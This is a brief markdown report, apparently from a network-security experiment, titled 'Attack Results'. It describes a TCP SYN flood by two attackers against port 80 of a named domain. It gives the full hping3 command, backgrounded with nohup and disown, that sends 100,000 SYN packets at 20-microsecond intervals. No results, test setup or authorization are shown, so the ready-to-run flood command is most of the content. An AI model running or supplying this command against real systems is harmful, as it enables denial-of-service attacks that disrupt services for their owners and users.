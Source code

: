 # Attack Results

## Description

- Type: TCP SYN Flood
- Number of attackers: 2
- Target port: 80
- Microseconds between packets: 20
- Target: radiumoxide.com
- Attack tool: hping3
- Attack Command: `sudo nohup hping3 -q -i u20 -S -p 80 -c 100000 radiumoxide.com > /dev/null & disown`


